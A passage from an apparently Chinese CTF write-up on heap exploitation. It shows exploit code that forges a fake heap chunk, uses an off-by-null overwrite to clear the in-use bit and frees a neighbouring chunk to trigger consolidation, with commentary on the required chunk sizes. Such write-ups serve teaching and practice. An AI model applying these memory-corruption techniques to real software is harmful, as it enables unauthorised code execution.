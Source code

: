 
[![](assets/1701606615-2d94ab8b0b073aded2ce4743411ba479.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213014-1be109ac-83bb-1.png)

```plain
pl=p64(0)+p64(0xf1)+p64(heap_base+0x9a0)+p64(heap_base+0x9a0)
pl=pl.ljust(0xf0,'\x00')
pl+=p64(0xf0)
edit(7,pl)
```

[![](assets/1701606615-9f348879fb2fde576e243c841d36577b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213026-232a5c86-83bb-1.png)  
这里大小为 0x100=就是为了方便覆盖：这里是伪造的 chunk，fd 和 bk 都为伪造 chunk 的 chunk 头，然后伪造了 next\_chunk\_pre\_size，然后利用了 off by null 置空 inuse，这里因为把'\\n'变成了'\\x00'，所以这里最后只会保留倒数第三位，所以才要求 chunk 大小为 0x100 或者 0x200 或者 0x300

```plain
delete(8)
```

